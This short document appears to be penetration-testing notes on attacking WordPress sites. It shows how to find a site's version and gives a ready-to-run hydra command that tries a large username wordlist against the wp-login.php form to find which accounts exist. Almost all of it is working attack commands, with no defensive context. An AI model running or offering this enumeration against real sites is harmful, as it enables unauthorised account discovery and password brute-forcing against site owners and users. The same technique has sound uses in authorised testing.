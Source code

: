 
# Find version
- /wp-links-opml.php
- In source code: 
```html
<meta name="generator" content="WordPress X.X.X" />
```


# Enumerate valid users
```bash
hydra -L /opt/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -p voidpass target  
http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Ftarget%2  
Fwp-admin%2F&testcookie=1:S=The password"
```
